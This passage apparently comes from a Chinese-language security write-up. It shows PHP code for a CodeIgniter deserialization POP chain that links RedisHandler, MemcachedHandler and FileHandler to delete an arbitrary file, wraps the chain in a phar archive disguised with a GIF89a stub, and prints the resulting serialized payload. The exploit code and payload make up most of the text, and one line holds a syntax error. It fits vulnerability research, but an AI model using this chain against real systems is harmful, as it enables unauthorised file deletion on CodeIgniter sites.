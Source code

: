 ```php
}

//=======MemcachedHandler中close()有$this-&gt;memcached-&gt;delete($this-&gt;lockKey)
namespace CodeIgniter\Session\Handlers;
class MemcachedHandler
{
    public $lockKey;  //传入delete()的值
    public $memcached;
    public function __construct()
    {           
        //$this-&gt;memcached-&gt;detele($this-&gt;lockKey);
        $this-&gt;lockKey = "D:\\phpstudy_pro\\WWW\\test.test"; //文件路径
        $this-&gt;memcached = new  \CodeIgniter\Cache\Handlers\FileHandler();  //触发下一个delete

    }

}

//==========RedisHandler中destruct有this-&gt;redis-&gt;close()
namespace CodeIgniter\Cache\Handlers;
class RedisHandler
{
     public $redis;
     public function __construct()
     {
        $this-&gt;redis = new \CodeIgniter\Session\Handlers\MemcachedHandler(); //指向MemcachedHandler对象
     }
    //因为后续有 this-&gt;redis-&gt;close()操作，可以用MemcachedHandler的close函数。
}

$o = new new RedisHandler());
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar-&gt;startBuffering();
$phar-&gt;setStub("GIF89a"."&lt;?php __HALT_COMPILER(); ?&gt;"); //设置stub
$phar-&gt;setMetadata($o); //将自定义的meta-data存入manifest
$phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
$phar-&gt;stopBuffering(); //签名自动计算

?&gt;
```

#### 序列化字符串

```php
string(275) "O:39:"CodeIgniter\Cache\Handlers\RedisHandler":1:{s:5:"redis";O:45:"CodeIgniter\Session\Handlers\MemcachedHandler":2:{s:9:"memcached";O:38:"CodeIgniter\Cache\Handlers\FileHandler":2:{s:6:"prefix";s:0:"";s:4:"path";s:0:"";}s:7:"lockKey";s:29:"D:\phpstudy_pro\WWW\test.test";}}"
```

#### POP链
